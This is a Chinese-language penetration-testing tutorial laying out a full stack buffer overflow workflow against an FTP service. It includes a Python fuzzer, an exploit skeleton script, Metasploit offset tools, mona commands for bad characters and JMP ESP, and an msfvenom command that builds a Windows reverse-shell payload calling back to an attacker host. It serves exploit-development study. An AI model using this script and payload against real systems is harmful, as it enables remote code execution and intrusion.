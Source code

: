 ```yaml
---
title: 缓冲区溢出流程
date: 2021/12/12
tags: [bufferover,渗透测试]
categories: 渗透测试
top_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
cover: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_14.jpg
---
```




# 缓冲区溢出流程

### 一、**Immunity Debugger**

- 最好以管理员的身份运行Innunity debugger

- 通常有两种方法可以使用 Immunity Debugger 来调试应用程序：

1. 确保应用程序正在运行，打开 Immunity Debugger，然后使用`File -> Attach`调试器攻击正在运行的进程。
2. 打开 Immunity Debugger，然后使用它`File -> Open`来运行应用程序。

- 在 Immunity Debugger 中附加到应用程序或打开应用程序时，应用程序将被暂停。单击“运行”按钮或按 F9。

### 二、**mona**

Mona 是一个强大的 Immunity Debugger 插件，可以更轻松地利用缓出。下载：[:download:`mona.py <../_static/files/mona.py>`](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/buffer-overflows.rst#id1)

最新版本可以在这里下载：[https](https://github.com/corelan/mona) : [//github.com/corelan/mona](https://github.com/corelan/mona)

这里找到：[https](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/) : [//www.corelan.be/index.php/2011/07/14/mona-py-the-manual/](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/)

将 mona.py 文件复制到 Immunity Debugger 的 PyCommands 目录(通常位于C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands）。

在 Immunity Debugger 中，键入以下内容以设置 mona 的工作目录。

`!mona config -set workingfolder c:\mona\%p`

### 三、**模糊测试**

- 可以修改以下 Python 脚本，它将发送越来越长的缓冲区字符串，最终使应用程序崩溃。

```python
import socket, time, sys

ip = "MACHINE_IP" //目标IP
port = 21  
timeout = 5

# Create an array of increasing length buffer strings.
buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        s.send("USER username\r\n")
        s.recv(1024)

        print("Fuzzing PASS with %s bytes" % len(string))
        s.send("PASS " + string + "\r\n")
        s.recv(1024)
        s.send("QUIT\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1)

```

- 检查 EIP 寄存器是否已被 A (\x41) 覆盖，并记下使崩溃发送的字节长度

### 四、**控制EIP**

以下python漏洞利用代码可用于缓冲区溢出漏洞利用的其余部分：

```python
import socket

ip = "10.0.0.1"   //目标IP
port = 21

prefix = ""
offset = 0  //EIP偏移量
overflow = "A" * offset   //无意义的填充物
retn = ""     //ESP跳板
padding = ""  //nop缓冲区(至少/x90 *16)
payload = ""  //恶意代码
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")

```

#### 寻找EIP

- 使用导致崩溃的缓冲区长度，生成一个唯一的缓冲区，以便我们可以确定覆盖 EIP 寄存器的模式中的偏移量，以及其他寄存器指向的模式中的偏移量。创建一个比崩溃缓冲区大 400 字节的模式，以便我们可以确定我们的 shellcode 是否可以立即适应。

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600    //应该将600修改为比缓冲区崩溃长度大400字节的数字
```

- 使用 mona 的 findmsp 命令，并将距离参数设置为比缓冲区崩溃大400的数字，确定EIP偏移量

```
!mona findmsp -distance 600   //600应该更改
```

- 或者在攻击机机器里使用下面的命令来确定EIP偏移量

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35724134   //后面的数字是EIP的值
```

### **五、查找坏字符**

- 使用 mona 生成字节数组，并默认排除空字节 (\x00)。请注意生成的 bytearray.bin 文件的位置

`!mona bytearray -b "\x00"`

- 现在生成一串与字节数组相同的坏字符。以下 python 脚本可用于生成从 \x01 到 \xff 的坏字符字符串：

```python
#!/usr/bin/env python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()

```

- 使用 mona compare 命令引用你生成的字节数组，以及 ESP 指向的地址：

```
!mona compare -f C:\mona\appname\bytearray.bin -a <esp地址>  
```

- 使用Ctrl + F4组合键可以查看之前找到的坏字符
- 注意：应该逐个排除坏字符，因为前一个坏字符可能会影响到后一个，导致好的字符被误判为坏字符

### **六、寻找跳板(ESP)**

- 使用以下指令寻找ESP，并且确保不会出现坏字符：

`!mona jmp -r esp -cpb " "  //引号内的是坏字符`

- 会显示多个ESP结果，都行，记下地址，写到代码中时地址要反过来写，因为进出顺序不同

### **七、生成有效载荷**

- 使用 msfvenom 生成反向 shell 负载，确保排除之前发现的相同错误字符：

```
msfvenom -p windows/shell_reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d" -f py -v payload

-p 载荷类型
LHOST 本机地址
LPORT
-b 坏字符
-f 编译的语言
-v 载荷的名称
```

- 注意：生成的载荷是字节类型的，放入python3脚本的时候可能需要转换成字符串类型

### **八、预先准备 NOP**

- 如果使用了编码器（如果存在错误字符的可能性很大，请记住在有效负载之前至少添加 16 个 NOP (\x90)。